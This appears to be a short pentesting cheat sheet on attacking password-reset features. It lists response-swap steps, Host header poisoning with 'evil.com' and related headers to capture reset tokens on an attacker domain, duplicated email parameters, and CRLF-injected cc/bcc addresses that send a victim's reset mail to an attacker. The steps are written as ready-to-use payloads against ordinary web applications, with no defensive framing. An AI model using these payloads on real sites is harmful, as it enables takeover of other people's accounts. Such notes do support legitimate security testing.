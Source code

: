 ### Forget Password Functionality
```
- Register an account as an attacker
- Change password and intercept success response of password change
- Register an account as a victim
- Try to change password and intercept the response
- Paste the attacker success response
```
```
- Click forgot password and put your email
- Intercept the request and add some headers with attacker control domain.
- Check email and see if password token comes with attacker control domain.
```

#### Headers
Try to change Host header.
```
Host: evil.com

Not working? Jsut double it.
Host: target.com
Host: evil.com
```

Other Headers
```
X-Forwarded-For
X-Forwarded-Host
Referer
Origin
```

#### With HTTP Parameter Pollution
```
- Go to password reset link, enter new password and intercept the request
- Add extra email parameter on the request
  email=attacker@email&email=victim@email
- If response success then see which account password has been changed
```

```
- Click Forgot Password
- Enter victim@mail.com%0d%0accattacker@mail.com Or victim@mail.com%0d%0abccattacker@mail.com
```
